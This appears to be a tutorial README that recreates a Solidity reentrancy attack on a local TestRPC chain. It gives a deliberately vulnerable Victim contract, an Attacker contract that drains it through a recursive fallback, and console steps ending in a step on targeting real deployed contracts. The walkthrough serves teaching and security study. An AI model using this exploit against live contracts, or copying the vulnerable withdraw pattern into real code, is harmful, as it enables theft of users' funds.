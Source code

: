 # Recreating Reentrancy Attack
The document below goes through a "reentrancy attack" scenario using 2 smart contract, a "Victim" and an "Attacker" contracts.

## Instructions

### 1. Run `TestRPC`

We run `testrpc` with the `-u` and `0` params to unlock the 1st account
(out of 10 provided by `TestRPC`) so we can make transactions from that account.

```
$ testrpc -u 0
```

### 2. Prereqs:

[NodeJS](https://nodejs.org/en/)

### Install TestRPC (testing blockchain) and TruffleJS (smart contract deployment tool)

```
$ npm i -g ethereumjs-testrpc
$ npm i -g truffle
```

### 3. Getting Started:

### Setup

```
$ mkdir reentrancy_attack
$ cd reentrancy_attack
$ truffle init
$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
$ touch contracts/Attacker.sol contracts/Victim.sol
```

#### inside of our `contracts/Victim.sol` file write:

```
pragma solidity ^0.4.8;

contract Victim {
  uint withdrawableBalance = 2 ether;

  function withdraw() {
    if (!msg.sender.call.value(withdrawableBalance)()) {
      throw;
    }

    withdrawableBalance = 0;
  }

  function deposit() payable {
    withdrawableBalance = msg.value;
  }
}
```

#### inside of our `contracts/Attacker.sol` file write:

```
pragma solidity ^0.4.8;

import './Victim.sol';

contract Attacker {
  Victim victim;

  function Attacker(address victimAddress) {
    victim = Victim(victimAddress);
  }

  function attack() {
    victim.withdraw();
  }

  // Fallback function which is called whenever Attacker receives ether
  function () payable {
    if (victim.balance >= msg.value) {
      victim.withdraw();
    }
  }
}
```

#### inside of our `migrations/2_deploy_contracts.js``` file write:

```
const Victim = artifacts.require('./Victim.sol')
const Attacker = artifacts.require('./Attacker.sol')

module.exports = function(deployer) {
  deployer
    .deploy(Victim)
    .then(() =>
      deployer.deploy(Attacker, Victim.address)
    )
}
```

### 3. Compile & Deploy Contract:

The command below creates a `build` folder, in the this
folder is your contracts in their `binary` and `abi` forms.

```
$ truffle compile
```

The command below `deploys` the contracts
(Migration, Victim, Attacker) to our test blockchain (testrpc).

```
$ truffle migrate
```

### 4. Open up the truffle/node console and deposit eth into our `Victim` contract instance.

So now we run the command below to get inside of the truffle console,
so we can interact with our deployed contracts (Victim, Attacker), and
utilize the `web3` object to to run `JSONRPC` commands.

```
$ truffle console
```

We're going to store the account we accounted from before in a `acct1` variable.

```
truffle(development)> acct1 = web3.eth.accounts[0]
```

Then we are going to store our `Victim` contract instances in a `victim` variable
so we can interact with the contract easily. The `.deployed` method gives us that instance.

```
truffle(development)> victim = Victim.deployed()
```

We'll also store our `Victim`'s contract address, so we can interact with it later.

```
truffle(development)> victim.then(contract => victimAddress = contract.address)
```

Now lets create a utility function so we can check address balance's and save key strokes.

```
truffle(development)> getBalance = web3.eth.getBalance
```

Now lets check the balance's of the 2 addresses we stored in variables. (acct1, victimAddress).

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'99.9430758' // or something close to this
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

Now we are going to send our `Victim` contract some `ether`
from the `acct1` address we unlocked earlier.

```
truffle(development)> victim.then(contract => contract.deposit.sendTransaction({from: acct1, to: victimAddress, value: web3.toWei(10, 'ether')}))
```

So there's alot going on in this line of code, so lets break it down. Our
`Victim` contract instance has a `deposit` function with a payable modifier,
that allows us to send ether to that function/contract from our `acct1` address.
Here's another look at that function.

```
path: ./contracts/Victims.sol

line 10 - function deposit() payable {}
```

Now lets check the balance's of the 2 addresses again,
which should read or come close to the amounts below.

```
truffle(development)> web3.fromWei(getBalance(acct1).toString())

'89.9404373' // or somthing close to this
```

Now our victims contract has 11 ether balance.

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'10'
```

### 5. Now for the `Attacker`'s side

So now that we have our `Victim`'s contract and we have
eth in that contract, lets steal some of that. but first lets check
if we even need any. (check attacker's balance)

```
attacker = Attacker.deployed()
```

```
attacker.then(contract => attackerAddress = contract.address)
```

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'0'
```

There shouldn't be any funds unless you've been stealing already!
After we have our scenario (all our variables set up). We can `contract.attack()`.

So from our `Attacker` contract instance we are going to call the `.attack()` method
that will then call the `Victim` contract instance's `withdraw()` method.

```
attacker.then(contract => contract.attack())
```

The `.attack()` method above calls withdraw which should only withdraw the withdrawable balance (2 ether in our example). The withdrawable balance should be zeroed out after calling withdraw. However, before zeroing out the withdrawable balance, our fallback function recursively calls withdraw until it drains all the ether from the victim.

Now if everything is done correctly, we can see the reflection of what happened
by checking the `Victim` and `Attacker`'s balances.

```
truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

'10'
```

```
truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

'0'
```

So as you can see all the `Victim`'s ether is gone!!!

### 6. The Attack!!!

So the attacker finds a contract to attack, gets the contract's address and creates an
`Attacker` contract with an instances of the `Victim`'s contract to call against and targets the
the deployed `Victim`'s contract by address. Once it has all of those variables in place, the attacker can
deploy the malicious contract to the Ethereum network and then call the `.attack()` method to drain
all of the `Victim`'s ether.

### 7. Further reading

https://medium.com/@gus_tavo_guim/reentrancy-attack-on-smart-contracts-how-to-identify-the-exploitable-and-an-example-of-an-attack-4470a2d8dfe4
